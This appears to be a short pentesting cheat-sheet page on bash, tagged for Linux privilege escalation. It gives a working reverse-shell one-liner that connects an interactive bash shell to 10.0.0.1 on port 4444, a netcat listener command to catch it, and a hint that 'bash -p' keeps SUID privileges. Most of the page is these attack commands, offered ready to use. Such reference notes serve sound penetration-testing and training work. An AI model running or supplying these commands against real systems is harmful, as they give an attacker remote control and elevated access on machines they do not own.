 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, SUID]
alts: []
website:
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```

<br />

## Create Bash script

```sh
#!/bin/bash -p (-p: privilege mode. It's used for SUID)

echo 'Hello World'
```